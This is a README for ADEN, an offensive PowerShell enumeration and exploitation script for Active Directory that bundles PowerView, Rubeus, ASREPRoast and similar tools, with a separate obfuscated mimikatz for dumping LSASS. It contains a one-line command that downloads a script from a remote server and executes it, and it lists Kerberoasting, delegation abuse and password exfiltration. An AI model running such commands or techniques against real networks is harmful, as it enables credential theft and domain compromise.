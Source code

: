 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- New-GPOImmediateTask
- Invoke-Rubeus


It is to be used as an all-in-one enumeration script to use when you are in a domain user's session. An obfuscated version of mimikatz is included separately in order to dump LSASS.\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
The function ```Invoke-FullEnum``` will launch a full enumeration that will allow you to initially map the  AD environment.

```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-FullEnum
```
Keep in mind you also have access to all the functions of the above mentioned scripts. 

## What does it do?

ADEN currently supports the following attack scenarios:

- ASREPRoasting / Kerberoasting
- Unconstrained / Constrained / Resource Based Delegations
- DACL Abuse
- Local Admin Access
- GPP / LAPS / LDAP Password exfiltration

It also enumerates the following, non-directly attack-correlated information:

- Current/Root Domain Info
- Current user memberships and privileges
- Kerberos and Password Policies
- Trust relationships
- Domain users, groups, computers, fileservers
